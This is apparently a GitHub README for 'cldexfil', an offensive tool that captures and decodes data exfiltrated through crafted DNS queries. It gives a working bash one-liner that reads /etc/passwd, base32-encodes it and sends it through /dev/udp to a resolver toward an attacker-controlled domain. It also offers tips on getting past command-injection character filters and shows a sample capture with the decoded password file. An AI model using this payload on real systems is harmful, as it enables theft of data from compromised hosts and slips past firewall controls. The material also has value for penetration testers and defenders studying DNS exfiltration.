 # cldexfil
Client-Less Data Exfiltration over DNS

`cldexfil` is a bare-simple tool to passively read exfiltrated data on DNS
queries. It listens and captures specially crafted Domain Name System (DNS)
queries on an interface of your choosing, decode and print them on your screen.

At this time of writing [cldexfil.py](cldexfil.py) is relatively limited
feature-wise, but as new client-less exfiltration methods (see Exfiltration
methods below) are found and are refined, more features will be added.


## Why?
Very frequently you cannot easily get a shell and directly exfiltrate data from
a compromised target, thanks to blind command injections, NGFWs and WAFs among
other things. What is left to you is a bare host environment (or an hardened
version) with the only capability to send DNS queries to the organization's DNS
forwarder(s). This is a very common scenario in today's _secured_ networks where
hosts rely solely on DNS resolutions to perform their tasks.

During some experiments, I found out that most Linux and Unix environments
ships with all the necessary tools to craft valid DNS queries and therefore,
attackers (presumably you with good intents) can exfiltrate valuable information
through the (frequently trusted) DNS channel.

`cldexfil` can tolerate and compensate for base32 padding issues, however it
does not differentiate legitimate DNS queries from forged ones.


## Exfiltration methods
Several client-less exfiltration methods do exist, one particularly useful and
which has been the catalyst to the creation of this tool is the use of the
bash's `/dev/udp redirection` feature to craft valid DNS queries. The latter are
forwarded by the host's trusted forwarder(s) to the authoritative DNS server you
control (or for which you can intercept traffic).

Let's see an example of a one-liner bash command which can be used as a payload.
The below command uses the `base32`, `echo` and `cat` commands combined, all are
part of GNU coreutils, the latter is included in the base install of many Linux
distributions:
```
$ cat /etc/passwd | base32 -w63 | while read E; do ( echo -ne "\x7a\x69\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x3f" && echo -n $E && echo -ne "\x04\x74\x6f\x6f\x72\x02\x73\x69\x00\x00\x01\x00\x01" ) | cat > /dev/udp/8.8.8.8/53; done
```

The first command concatenates and prints the content of the `/etc/passwd` file
on standard output. It's then piped to the `base32` utility so 63-bytes names
are created and read individually. For every lines (or names), the `echo`
command produces a DNS query and send it through the shell `/dev/udp`
pseudo-device, to the specified DNS forwarder.

Worth mentioning is the fact the binary string passed to the first `echo`
command includes the `recursion desired` bit set and an hard-coded transaction
id. The last `echo` command includes the domain name, the class and type of the
query; above `A` records were used (0x1) within the `IN` class (0x0001).

Please note the above queries' length are hard-coded to 63 bytes (0x3F),
therefore the last created hostname will probably not be aligned on a 63 bytes
boundary and it will results in a malformed DNS query.

In presence of command injection vulnerabilities you frequently have a list of
bad characters you cannot inject, such as the semi-colon ';' or the back-slash
'\\', the above example is of no use in such cases, and alternative characters
or command expressions may be needed. Also keep in mind that most methods
described here, do not provide data confidentiality and integrity.

The above command can certainly be optimized and has room for improvements via
additional experimentations. `cldexfil` supports variable-length queries as soon
as the sub-domain can be extracted and decoded using base32. The python script
has been deliberately kept simple for these reasons.

Also keep in mind that reliability and behaviors may vary from implementations
to implementations, and between shells versions.


## Practical examples
`cldexfil` can be used in a lot of exploitation scenarios. This project's
[wiki](https://github.com/e3prom/cldexfil/wiki) includes a few practical
examples of *client-less* data exfiltration over DNS through the exploitation of
well known vulnerabilities such as RCEs.


## Dependencies
 * Python 2.7
 * Scapy (https://github.com/secdev/scapy)


## Running
Simply run [cldexfil.py](cldexfil.py) by specifying the network interface you
want to listen on (may require root privilege). The tool will passively extract
DNS queries (a source can optionally be given with the '-s' switch) and decode
them to standard output.

```
$ sudo ./cldexfil/cldexfil.py -s 8.8.8.8 --verbose eth0
[*] listening on eth0 for DNS queries
[*] hit CTRL-C to decode data received
Ether / IP / UDP / DNS Qry "OJXW65B2PA5DAORQHJZG633UHIXXE33POQ5C6YTJNYXWEYLTNAFGIYLFNVXW4OT.toor.si."
Ether / IP / UDP / DNS Qry "YHIYTUMJ2MRQWK3LPNY5C65LTOIXXGYTJNY5C65LTOIXXGYTJNYXW433MN5TWS3.toor.si."
Ether / IP / UDP / DNS Qry "QKMJUW4OTYHIZDUMR2MJUW4ORPMJUW4ORPOVZXEL3TMJUW4L3ON5WG6Z3JNYFHG.toor.si."
Ether / IP / UDP / DNS Qry "6LTHJ4DUMZ2GM5HG6LTHIXWIZLWHIXXK43SF5ZWE2LOF5XG63DPM5UW4CTTPFXG.toor.si."
Ether / IP / UDP / DNS Qry "GOTYHI2DUNRVGUZTIOTTPFXGGORPMJUW4ORPMJUW4L3TPFXGGCTHMFWWK4Z2PA5.toor.si."
Ether / IP / UDP / DNS Qry "DKORWGA5GOYLNMVZTUL3VONZC6Z3BNVSXGORPOVZXEL3TMJUW4L3ON5WG6Z3JNY.toor.si."
Ether / IP / UDP / DNS Qry "FG2YLOHJ4DUNR2GEZDU3LBNY5C65TBOIXWGYLDNBSS63LBNY5C65LTOIXXGYTJN.toor.si."
Ether / IP / UDP / DNS Qry "YXW433MN5TWS3QKNRYDU6B2G45DOOTMOA5C65TBOIXXG4DPN5WC63DQMQ5C65LT.toor.si."
Ether / IP / UDP / DNS Qry "OIXXGYTJNYXW433MN5TWS3QKNVQWS3B2PA5DQORYHJWWC2LMHIXXMYLSF5WWC2L.toor.si."
Ether / IP / UDP / DNS Qry "MHIXXK43SF5ZWE2LOF5XG63DPM5UW4CTOMV3XGOTYHI4TUOJ2NZSXO4Z2F53GC4.toor.si."
Ether / IP / UDP / DNS Qry "RPONYG633MF5XGK53THIXXK43SF5ZWE2LOF5XG63DPM5UW4CTVOVRXAOTYHIYTA.toor.si."
Ether / IP / UDP / DNS Qry "ORRGA5HK5LDOA5C65TBOIXXG4DPN5WC65LVMNYDUL3VONZC643CNFXC63TPNRXW.toor.si."
Ether / IP / UDP / DNS Qry "O2LOBJYHE33YPE5HQORRGM5DCMZ2OBZG66DZHIXWE2LOHIXXK43SF5ZWE2LOF5X.toor.si."
Ether / IP / UDP / DNS Qry "G63DPM5UW4CTXO53S2ZDBORQTU6B2GMZTUMZTHJ3XO5ZNMRQXIYJ2F53GC4RPO5.toor.si."
Ether / IP / UDP / DNS Qry "3XOORPOVZXEL3TMJUW4L3ON5WG6Z3JNYFGEYLDNN2XAOTYHIZTIORTGQ5GEYLDN.toor.si."
Ether / IP / UDP / DNS Qry "N2XAORPOZQXEL3CMFRWW5LQOM5C65LTOIXXGYTJNYXW433MN5TWS3QKNRUXG5B2.toor.si."
Ether / IP / UDP / DNS Qry "PA5DGOB2GM4DUTLBNFWGS3THEBGGS43UEBGWC3TBM5SXEORPOZQXEL3MNFZXIOR.toor.si."
Ether / IP / UDP / DNS Qry "POVZXEL3TMJUW4L3ON5WG6Z3JNYFGS4TDHJ4DUMZZHIZTSOTJOJRWIORPOZQXEL.toor.si."
Ether / IP / UDP / DNS Qry "3SOVXC62LSMNSDUL3VONZC643CNFXC63TPNRXWO2LOBJTW4YLUOM5HQORUGE5DI.toor.si."
Ether / IP / UDP / DNS Qry "MJ2I5XGC5DTEBBHKZZNKJSXA33SORUW4ZZAKN4XG5DFNUQCQYLENVUW4KJ2F53G.toor.si."
Ether / IP / UDP / DNS Qry "C4RPNRUWEL3HNZQXI4Z2F52XG4RPONRGS3RPNZXWY33HNFXAU3TPMJXWI6J2PA5.toor.si."
Ether / IP / UDP / DNS Qry "DMNJVGM2DUNRVGUZTIOTON5RG6ZDZHIXW433OMV4GS43UMVXHIORPOVZXEL3TMJ.toor.si."
Ether / IP / UDP / DNS Qry "UW4L3ON5WG6Z3JNYFHG6LTORSW2ZBNORUW2ZLTPFXGGOTYHIYTAMB2GEYDGOTTP.toor.si."
Ether / IP / UDP / DNS Qry "FZXIZLNMQQFI2LNMUQFG6LOMNUHE33ONF5GC5DJN5XCYLBMHIXXE5LOF5ZXS43U.toor.si."
Ether / IP / UDP / DNS Qry "MVWWIORPMJUW4L3GMFWHGZIKON4XG5DFNVSC23TFOR3W64TLHJ4DUMJQGE5DCMB.toor.si."
Ether / IP / UDP / DNS Qry "UHJZXS43UMVWWIICOMV2HO33SNMQE2YLOMFTWK3LFNZ2CYLBMHIXXE5LOF5ZXS4.toor.si."
Ether / IP / UDP / DNS Qry "3UMVWWIL3OMV2GSZR2F5RGS3RPMZQWY43FBJZXS43UMVWWILLSMVZW63DWMU5HQ.toor.si."
Ether / IP / UDP / DNS Qry "ORRGAZDUMJQGU5HG6LTORSW2ZBAKJSXG33MOZSXELBMFQ5C64TVNYXXG6LTORSW.toor.si."
Ether / IP / UDP / DNS Qry "2ZBPOJSXG33MOZSTUL3CNFXC6ZTBNRZWKCTTPFZXIZLNMQWWE5LTFVYHE33YPE5.toor.si."
Ether / IP / UDP / DNS Qry "HQORRGAZTUMJQGY5HG6LTORSW2ZBAIJ2XGICQOJXXQ6JMFQWDUL3SOVXC643ZON.toor.si."
Ether / IP / UDP / DNS Qry "2GK3LEHIXWE2LOF5TGC3DTMUFG2ZLTONQWOZLCOVZTU6B2GEYDIORRGA3TUORPO.toor.si."
Ether / IP / UDP / DNS Qry "ZQXEL3SOVXC6ZDCOVZTUL3CNFXC6ZTBNRZWKCSEMVRGSYLOFVSXQ2LNHJ4DUMJQ.toor.si."
Ether / IP / UDP / DNS Qry "GU5DCMJQHI5C65TBOIXXG4DPN5WC6ZLYNFWTIORPMJUW4L3GMFWHGZIKtoors."
^C
[*] Decoding exfiltrated data...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false
Debian-exim:x:10
```


## Contribution
Feel free to share your contribution, if you feel inclined to.


## License
GNU General Public License v3.0
